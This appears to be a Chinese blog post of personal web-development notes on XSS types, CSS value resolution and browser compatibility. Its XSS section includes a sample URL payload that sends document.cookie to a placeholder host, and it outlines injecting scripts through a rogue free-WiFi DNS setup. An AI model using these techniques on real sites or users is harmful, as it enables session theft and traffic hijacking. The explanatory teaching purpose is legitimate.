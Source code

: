 ```yaml
---

layout: post

title: "日常笔记"

date: 2018-01-11

categories: [Web]

---
```


* content
{:toc}

- CSS样式 ``appearence: none;``:
- 三种 XSS 攻击
  > XSS是一种经常出现在web应用中的计算机安全漏洞，它允许恶意web用户将代码植入到提供给其它用户使用的页面中。比如这些代码包括HTML代码和客户端脚本。攻击者利用XSS漏洞旁路掉访问控制——例如同源策略(same origin policy)。这种类型的漏洞由于被黑客用来编写危害性更大的网络钓鱼(Phishing)攻击而变得广为人知。对于跨站脚本攻击，黑客界共识是：跨站脚本攻击是新型的“缓冲区溢出攻击“，而JavaScript是新型的“ShellCode”。
  1. Reflected XSS（基于反射的XSS攻击）
  2. Stored XSS（基于存储的XSS攻击）
  3. DOM-based or local XSS（基于DOM或本地的XSS攻击）

  - **Reflected XSS**
    
    基于反射的XSS攻击，主要依靠站点服务端返回脚本，在客户端触发执行从而发起Web攻击。
    例子：
    1. 做个假设，在淘宝搜索书籍，搜不到书的时候显示提交的名称。
    2. 在搜索框搜索内容，填入``<script>alert('handsome boy')</script>``, 点击搜索。
    3. 当前端页面没有对返回的数据进行过滤，直接显示在页面上， 这时就会 alert 那个字符串出来。
    4. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：``http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie='+document.cookie</script>``
  - **Stored XSS**

    基于存储的XSS攻击，是通过发表带有恶意跨域脚本的帖子/文章，从而把恶意脚本存储在服务器，每个访问该帖子/文章的人就会触发执行。
    例子：
    1. 发一篇文章，里面包含了恶意脚本
    
       ``今天天气不错啊<script>alert('handsome boy')</script>``
    2. 后端没有对文章进行过滤，直接保存文章内容到数据库。
    3. 当其他看这篇文章的时候，包含的恶意脚本就会执行。
  - **DOM-based or local XSS**不完善不全面
    
    基于DOM或本地的XSS攻击。一般是提供一个免费的wifi，但是提供免费wifi的网关会往你访问的任何页面插入一段脚本或者是直接返回一个钓鱼页面，从而植入恶意脚本。这种直接存在于页面，无须经过服务器返回就是基于本地的XSS攻击。
    提供一个免费的wifi。
    1. 开启一个特殊的DNS服务，将所有域名都解析到我们的电脑上，并把Wifi的DHCP-DNS设置为我们的电脑IP。
    2. 之后连上wifi的用户打开任何网站，请求都将被我们截取到。我们根据http头中的host字段来转发到真正服务器上。
    3. 收到服务器返回的数据之后，我们就可以实现网页脚本的注入，并返回给用户。
    4. 当注入的脚本被执行，用户的浏览器将依次预加载各大网站的常用脚本库。

- JS符号优先级: ``===`` > ``||``
- 兼容性：
  1. ``getElementsByClassName`` is supported by **IE11 and higher** version
  2. ``getElementById`` ： since IE6+, Firefox 2+, Chrome 1+ 

- 获取CSS样式：
  1. `element.style`: return a  CSSStyleDeclaration object which contains all of the initial declared style.
    ```js
      CSSStyleDeclaration {
        "marginTop": "5px",
        "height": "93px"
      }
    ```
  2. `window.getComputedStyle(ele, pseudoElt)`: 得到元素当前所生效的样式。

  **使用**： 均可以按照下列方法使用：
    ```js
      ele.style['margin-left'] // ele.style['marginLeft']
    ```
- some types of CSS property value
  1. `resolved value`: one of `computed value` and `used value`.
    the value return by `getComputedStyle`.
    For most properties, it is the `computed value`, but for a few legacy properties (including `width` and `height`), it is instead the `used value`.
  2. `computed value`
    The `computed value` of a CSS property is the value that is transferred from parent to child during inheritance. It is calculated from the `specified value` by:
      1. Handling the special values `inherit`, `initial`, `unset`, and `revert`.
      2. Doing the computation needed to reach the value described in the "Computed value" line in the property's definition table.

      获取属性值的`computed value`所需要的计算涉及相对值转化为绝对值（例如`em`）。
  3. `specified value`: value receives from document's style sheet.
    The specified value for a given property is determined according to the following rules:
      1. If the document's style sheet explicitly specifies a value for the property, the given value will be used.
      2. If the document's style sheet doesn't specify a value but it is an inherited property, the value will be taken from the parent element.
      3. If none of the above pertain, the element's `initial value` will be used.
  4. ` initial value`
    element's default value as listed in it's definition table.
    The usage of the initial value depends on whether a property is inherited or not:
      1. For `inherited properties`, the initial value is used on the root element only, as long as no `specified value` is supplied.
      2. For `non-inherited` properties, the initial value is used on all elements, as long as no `specified value` is supplied.
  5. `used value`: The used value of a CSS property is its value after all calculations have been performed on the computed value.

  **总结**：一个元素样式的某个属性是这样决定的：

    1. 先看 `specified value` ：
        - 如果样式表指定了具体的样式，则使用具体样式
        - 如果没有指定，但是属性为可继承的属性，则使用父元素的值
        - 不符合两者，则使用 `initail value` 作为其属性值。
    2. 然后是`computed value`:将元素各个样式属性的值进行一定的计算，如将相对值计算为绝对值，百分比计算为绝对值。
    3. 再看通过 `computed value` 能否决定元素的具体样式。有时计算值并不能计算出最终的结果，那么就使用 `used value`。
    4. 最终，应用到元素的实际样式，就是 `resolved value`。它是 `computed value` 和 `used value` 两者之一。
  
- CSS key words
  1. `inherit`: 指定元素从父元素继承属性值
  2. `initial`: 指定元素应用`initial value`.
  3. `unset`: 将元素的属性值转变为 `inherited value` or `initial value`。 取决于其初始值的来源。
  4. `revert`: If the cascaded value of a property is the revert keyword, the behavior depends on the origin to which the declaration belongs:
      1. user-agent origin: Equivalent to `unset`.
      2. user origin:  Rolls back the cascaded value to the user-agent level, so that the specified value is calculated as if no author-level or user-level rules were specified for this property on this element.
      3. author origin: Rolls back the cascaded value to the user level, so that the specified value is calculated as if no author-level rules were specified for this property on this element. For the purpose of revert, this origin includes the Override and Animation origins.

- CSS 中 `height` 的 `100%` 是相对于父元素的 `content-box` 的，即使父元素设置了 `box-sizing: border-box`
- `window.name` 默认为 `''`,空字符串
- 出于浏览器的隐私保护策略，通过**伪类**选中的元素，只能设置与颜色相关的属性。

<a href="mailto:123@asd.com">点击发送链接</a>
<script>
navigator.registerProtocolHandler('mailto', 'https://zhuqingguang.github.io/?action=compose&to=%s', 'Hotmail')
</script>



